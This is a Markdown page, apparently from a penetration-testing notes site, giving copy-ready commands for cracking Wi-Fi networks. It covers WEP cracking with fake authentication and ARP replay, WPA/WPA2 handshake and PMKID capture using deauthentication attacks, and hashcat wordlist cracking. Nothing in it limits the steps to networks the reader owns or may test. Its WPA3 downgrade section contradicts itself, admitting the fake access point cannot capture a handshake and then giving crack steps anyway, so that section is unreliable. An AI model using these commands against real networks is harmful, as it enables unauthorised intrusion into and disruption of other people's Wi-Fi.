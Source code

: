 ```yaml
---
title: Wireless
layout: page
parent: network
---
```


# Wireless

<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
1. TOC
{:toc}
</details>

---

## Setup

### Monitor mode

First off, you need to set up your wifi interface in monitor mode. To do so, you need to know the name of your wifi interface. You can find it by running the following command:

```bash
ip addr
```

This will list all the network interfaces on your system. Look for the one that corresponds to your wifi adapter. It is usually named `wlan0`, `wlan1`, `wlo1` or something similar.
Once you have identified your wifi interface, you can set it to monitor mode using the following commands :

```bash
sudo airmon-ng check kill
sudo airmon-ng start <interface>  # start monitor mode
```

### Network scanning

Now, you can scan for wifi networks using the following command:

```bash
sudo airodump-ng <monitor_interface> #eg wlan0mon
```

This will display a list of all the wifi networks in range, and note the BSSID (MAC address) and channel of the target network.

## WEP cracking

### Capture packets

To crack WEP, you need to capture packets from the target network. You can do this using the following command:

```bash
sudo airodump-ng --channel <channel> --bssid <BSSID> --write <output_file> <monitor_interface>
```

You want a lot of Data packets (not just Beacons).

### Speed up the process

To speed up the process, you can use the following command to inject packets into the network:

```bash
sudo aireplay-ng --fakeauth 0 -a <BSSID> <monitor_interface>
```

This will authenticate you to the network and allow you to capture more packets, then you can use the following command to generate ARP requests:

```bash
sudo aireplay-ng --arpreplay -b <BSSID> <monitor_interface>
```

This will generate a lot of traffic and help you capture more packets.

### Cracking the WEP key

Once you have captured enough packets (at least 50000 IVs, recommended 200000), you can crack the WEP key using the following command:

```bash
aircrack-ng <output_file>
```

This will attempt to crack the WEP key using the captured packets. If successful, it will display the WEP key in the terminal.

## WPA/WPA2 cracking

### Option 1 (easier but slower and less successful)

To crack WPA/WPA2, you need to capture a 4-way handshake. To do so, you have to capture the handshake when a client connects to the network, so start the airodump-ng command to capture packets:

```bash
sudo airodump-ng --channel <channel> --bssid <BSSID> --write <output_file> <monitor_interface>
```

If a client is connected to the network, you will see the handshake in the terminal. If not, you can use the following command to deauthenticate a client and force it to reconnect in another terminal:

```bash
sudo aireplay-ng --deauth 10 -a <BSSID> -c <STATION> <monitor_interface>
```

Once you have captured the handshake, you can crack the WPA/WPA2 key using a wordlist. You can use the following command to crack the key:

```bash
aircrack-ng -w <wordlist> <capture_file>
```

This will attempt to crack the WPA/WPA2 key using the wordlist provided. If successful, it will display the WPA/WPA2 key in the terminal.
Note that if the ESSID is hidden, you will need to use the `-e` option to specify the ESSID when cracking the key.

### Option 2 (harder but faster and more successful)

A way faster and more successful alternative to the previous method is to use `hcxdumptool` to capture the handshake or the PMKID and then crack it with `hashcat`. This makes it more likely to succeed than the previous method since we could only use the handshake with it, and this method allows us to use `hashcat` to crack the hash which is way faster than `aircrack-ng`.

First, we need to do a dump using `tcpdump` :

```bash
sudo tcpdump -s 65535 -y IEEE802_11_RADIO "wlan addr3 <BSSID (eg.aabbccddeeff)> or wlan addr3 ffffffffffff" -ddd > <bpf_output_file>.bpf
```

Then, we can use `hcxdumptool` to capture the handshake or the PMKID, and it is mandatory to add band information to the channel number (e.g. 12a):

- band a: NL80211_BAND_2GHZ
- band b: NL80211_BAND_5GHZ
- band c: NL80211_BAND_6GHZ

Thus, you can use the following command:

```bash
sudo hcxdumptool -i <monitor_interface> -c <channel>[a,b,c] --bpf=<bpf_input_file>.bpf -w <output_capture_file>.pcapng
```

This will create a pcapng file with the captured packets, you need to wait for either the EAPOL handshake symbolized by the '3' or the PMKID symbolized by the 'P' to have a + under them to know that you have captured one of them, allowing you to try to crack the hash.

Now, we need to convert the pcapng file to the specific hash that `hashcat` can use. To do this, we can use the following command:

```bash
hcxpcapngtool -o <output_file>.hc22000 <input_capture_file>.pcapng
```

Finally, we can use `hashcat` to crack the hash. You can use the following command to try to crack the hash using a wordlist and a rule file, but bruteforce is also possible for wireless cracking.

```bash
hashcat -m 22000 -a 0 -o <output_file> -r /tmp/OneRuleToRuleThemStill/OneRuleToRuleThemStill.rule <hash_file>.hc22000 /tmp/wordlists/passwords/most_used_passwords.txt -w 4 --opencl-device-types 1,2 
```

## WPA3 downgrade

Note that this only allows us to shutdown traffic on the network, but not to capture the handshake. To do this, we need to change our approach on the WPA2 AP part.

### Capture packets

To crack WPA3, you need to capture packets from the target network. You can do this using the following command:

```bash
sudo airodump-ng --channel <channel> --bssid <BSSID> <monitor_interface>
```

### Deauthenticate a client

To deauthenticate a client and force it to reconnect, you can use the following command:

```bash
sudo aireplay-ng --deauth 10 -a <BSSID> -c <STATION> <monitor_interface>
```

### Fake a WPA2 AP

To fake a WPA2 AP, you can use the following command:

```bash
sudo airbase-ng -e <SSID> -c <channel> -P -C 30 -Z 4 <monitor_interface>
```

This will create a fake AP with the specified SSID and channel, however, this is not a true WPA2 AP, which does not allow us to capture the handshake. To do this, we need to use a different method. This is the only thing missing to make WPA3 cracking work.

### Option 1 (easier but slower and less successful)

Conceal the WPA3 handshake by capturing it with airodump-ng:

```bash
sudo airodump-ng --channel <channel> --bssid <fake_BSSID> --write <output_file> <monitor_interface>
```

Once you have captured the handshake, you can crack the WPA3 key using a wordlist. You can use the following command to crack the key:

```bash
aircrack-ng -w <wordlist> <capture_file>
```

This will attempt to crack the WPA3 key using the wordlist provided. If successful, it will display the WPA3 key in the terminal.

### Option 2 (harder but faster and more successful)

Same as WPA2, if you need more explanation check this [part](#option-2-harder-but-faster-and-more-successful) of the WPA2 cracking section.

```bash
sudo tcpdump -s 65535 -y IEEE802_11_RADIO "wlan addr3 <fake_BSSID (eg.aabbccddeeff)> or wlan addr3 ffffffffffff" -ddd > <bpf_output_file>.bpf
```

```bash
sudo hcxdumptool -i <monitor_interface> -c <channel>[a,b,c] --bpf=<bpf_input_file>.bpf -w <output_capture_file>.pcapng
```

```bash
hcxpcapngtool -o <output_file>.hc22000 <input_capture_file>.pcapng
```

```bash
hashcat -m 22000 -a 0 -o <output_file> -r /tmp/OneRuleToRuleThemStill/OneRuleToRuleThemStill.rule <hash_file>.hc22000 /tmp/wordlists/passwords/most_used_passwords.txt -w 4 --opencl-device-types 1,2 
```

## Resetting the interface

Once you are done with the cracking, you can reset your wifi interface to its normal mode using the following command:

```bash
sudo airmon-ng stop <monitor_interface>
```

This will stop the monitor mode and reset the interface to its normal mode.
You can also use the following command to restart the network manager:

```bash
sudo systemctl restart NetworkManager
```

This will restart the network manager and allow you to connect to wifi networks again.
If you are using a different network manager, rebooting your system should also work.
